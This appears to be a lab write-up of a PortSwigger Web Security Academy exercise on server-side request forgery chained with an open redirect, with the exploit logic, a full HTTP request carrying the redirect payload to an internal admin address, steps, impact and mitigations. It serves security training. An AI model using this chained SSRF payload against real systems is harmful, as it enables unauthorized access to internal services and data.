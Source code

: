# 📘 Scenario 5: SSRF Chained with Open Redirect

## 🔎 Vulnerability Description

In this scenario, the application has a basic SSRF prevention mechanism in place — it **only allows internal requests if the URL is from a trusted domain**. However, the application also suffers from an **open redirect vulnerability** that can be chained with SSRF to bypass this check.

By crafting a malicious URL that **redirects internally**, the attacker tricks the server into sending requests to **unauthorized internal resources**.

> **Vulnerability Type:** SSRF via Redirection  
> **Combined with:** Open Redirect  
> **OWASP Top 10 ID:** A10:2021 – SSRF  
> **Risk Level:** High (chainable exploit)

---

## 🔧 Target

**SSRF Endpoint:**

🔗 https://0a39009b0419957b806558b700f70007.web-security-academy.net/product/stock \
🔗 https://0a39009b0419957b806558b700f70007.web-security-academy.net/product/nextProduct?currentProductId=1&path=[payload]

---
## 🧠 Exploitation Logic

1. SSRF filter allows requests only to trusted domain: `web-security-academy.net`.
2. Open redirect vulnerability lets attacker redirect from `web-security-academy.net` to an **internal host**.
3. Chain both to access internal resource indirectly.

---

## 📥 HTTP Request

```http
POST /product/stock HTTP/2
Host: 0a39009b0419957b806558b700f70007.web-security-academy.net
Cookie: session=yVrzyNrEbsIirT0y0xGvL2u6X8R0nwjM
Content-Length: 86
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a39009b0419957b806558b700f70007.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a39009b0419957b806558b700f70007.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
 
stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin

```
---
## 📥 Server Response
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3177

```
---

## 🧪 Exploitation Steps

Confirm that `stockApi=http://192.168.0.12/` is blocked.

Test the redirect endpoint:

``` 
https://0a39009b0419957b806558b700f70007.web-security-academy.net/product/nextProduct?currentProductId=1&path=http://192.168.0.12/admin 
```
Use that redirect URL as input to `stockApi` parameter.

Send the full chained request and observe the server’s response.

## 💥 Potential Impact

- **Bypasses SSRF protections** based on trusted hostname checks.

- Access to **internal admin panels**, cloud metadata, or service dashboards.

- May lead to **privilege escalation**, **sensitive data leakage**, or **RCE** in chained attacks.

- **Precursor to RCE or lateral movement**.

## ✅ Mitigation Suggestions
- Disallow redirects to non-whitelisted domains or IPs.

- Prevent open redirects altogether by validating `path` parameters strictly.

- Resolve final redirect destination before sending any request.

- Use SSRF-aware request wrappers that don't follow redirects by default.

## 📸 Screenshot

![Exploitation Image Of Scenario 5](https://github.com/hovikhanh/ssrf-demo/images/Picture5.png "Exploitation Image Of Scenario 5")

## 🔗 References

[PortSwigger – SSRF via Open Redirect](https://portswigger.net/web-security/ssrf)

[OWASP Open Redirect Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Open_Redirect_Prevention_Cheat_Sheet.html)

> ⚠️ This is a chained attack that requires exploiting two flaws. It demonstrates why single-point protections (like hostname checks) are insufficient in real-world web applications.